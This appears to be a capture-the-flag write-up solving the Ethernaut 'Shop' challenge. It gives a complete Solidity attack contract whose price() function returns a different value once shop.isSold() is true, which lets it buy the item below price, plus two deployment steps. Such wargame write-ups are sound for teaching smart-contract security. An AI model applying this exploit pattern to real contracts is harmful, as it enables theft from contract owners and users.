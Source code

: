 # Shop

In this challenge we implement an interface and override the function. The real catch is that on the first call it must return a different value, than it does the second time. See the ternary operation.

```// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Shop.sol";

contract ShopAttack is Buyer {

    Shop shop;

    constructor(address _address) public {
        shop = Shop(_address);
    }

    function price() external view override returns (uint) {
        return shop.isSold() ? 0 : 100;
    }

    function attack() external {
        shop.buy();
    }
}
```

Step 1:

Deploy w/ ethernaut instance address as constructor arg

Step2:

call attack function